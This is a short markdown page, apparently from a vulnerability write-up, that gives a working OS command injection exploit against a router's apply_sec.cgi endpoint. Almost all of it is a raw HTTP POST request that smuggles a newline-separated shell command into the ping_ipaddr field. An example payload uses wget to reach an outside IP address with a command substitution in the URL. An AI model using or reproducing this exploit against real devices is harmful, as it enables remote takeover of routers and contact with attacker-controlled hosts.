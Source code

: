 +++
title = "OS Command Injection"
date = 2021-10-18T20:39:54-06:00
weight = 5
+++


## OS Command Injection

Make an HTTP POST request to the router, replacing "{URL_ENCODED_CMD}" with the desired command to run on the router like `wget%20-P%20/tmp/%20http://45.76.148.31:4321/?$(echo 1234)`
```
POST /apply_sec.cgi HTTP/1.1
Host: 192.168.232.128
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 131
Connection: close
Referer: http://192.168.232.128/login_pic.asp
Cookie: uid=1234123
Upgrade-Insecure-Requests: 1
html_response_page=login_pic.asp&action=ping_test&ping_ipaddr=127.0.0.1%0a{URL_ENCODED_CMD}

```
